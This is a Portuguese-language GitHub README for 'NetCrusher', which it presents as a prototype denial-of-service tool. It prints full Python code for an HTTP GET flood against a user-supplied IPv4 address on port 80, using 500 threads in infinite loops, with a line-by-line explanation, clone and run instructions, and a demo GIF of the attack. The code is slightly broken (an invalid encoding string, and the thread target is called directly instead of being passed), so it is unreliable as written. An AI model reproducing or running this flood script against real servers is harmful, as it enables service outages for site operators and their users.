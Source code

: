# Net-crusher

### Introdução 

- NetCrusher é um código de ataque Dos simples, sendo utilizado como base para uma ferramenta que negará Serviço na Camada de Aplicação. Esse Código realiza um ataque de Flood HTTP,
um tipo de ataque de negação de serviço (DoS), enviando um grande número de solicitações HTTP GET para um servidor alvo.

- Vale ressaltar que isso é um protótipo. Ele será a base da base pro que será a ferramenta final.

### Código 
<div style="display: inline_block"><br>
   <img align="center" alt="foto-teste" src="https://media.discordapp.net/attachments/1216774284471570473/1240432389948444794/image.png?ex=66468a2f&is=664538af&hm=34c7eab336f50442ef581240a3d67d6bfc93185067781cd424e8d93164530978&=&format=webp&quality=lossless"
</div> 

  >Imagem do código na shell

### Explicação
  * Este código em Python parece ser uma implementação de um ataque de negação de serviço (DoS) do tipo HTTP flood. Vou explicar cada parte do código:
Importações:

```python
      import socket
      import threading
```



- Estas bibliotecas são importadas para permitir o uso de sockets (conexões de rede) e threading (execução de múltiplas threads simultaneamente).
Entrada do usuário:

```python
      target = str(input("entre com o iPv4: "))
      port = 80
```

- Aqui, o código solicita ao usuário que insira o endereço IPv4 do alvo. A porta é definida como 80, que é a porta padrão para tráfego HTTP.

- Função
 
```python
      http_flood:
      def http_flood():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target,port))
        s.sendto(("Host: 192.168.56.2" +"\r\n\r\n").encode('ascii'), (target,port))
        print("Mandando Solicitação")
```

- Esta função é responsável por criar uma conexão TCP com o servidor de destino na porta 80 e enviar repetidamente uma solicitação HTTP GET. A função está em um loop infinito (while True), o que significa que continuará enviando solicitações até que o programa seja interrompido.

```python
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) #Cria um socket TCP.
    s.connect((target, port)) #Conecta ao alvo na porta especificada.
    s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target, port)) #Envia uma solicitação HTTP GET.
    s.sendto(("Host: 192.168.56.2" + "\r\n\r\n").encode('ascii'), (target, port)) #Envia o cabeçalho Host.
    print("Mandando Solicitação") #Imprime uma mensagem indicando que a solicitação foi enviada.
```


- Criação e inicialização das threads:

```python
  for i in range(500):
  thread = threading.Thread(target=http_flood())
  thread.start()
  Aqui, o código cria 500 threads, cada uma executando a função http_flood.

```





### instalação: 
  * git clone: https://github.com/molinaticas/DOS-simples/blob/main/NetCrusher.py
```python
import socket
import threading

target = str(input("entre com o iPv4: "))
port = 80

def http_flood():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target, port))
        s.sendto(("Host: 192.168.56.2" + "\r\n\r\n").encode('ascii'), (target, port))
        print("Mandando Solicitação")


for i in range(500):
    thread = threading.Thread(target=http_flood())
    thread.start()
```

### COMO USAR:
  * python3 NetCrusher

### DEMONSTRAÇÃO: 

<div style="display: inline_block"><br>
  <img align="center" alt="gif" src="https://cdn.discordapp.com/attachments/1141095761069752330/1240441549414993961/Video_sem_titulo.gif?ex=664692b7&is=66454137&hm=10154f0bd484bc5a1fa1c2cff432144ae1f3253edabce67f9e651bff61460b63&"
</div> 

  >GIF do ataque
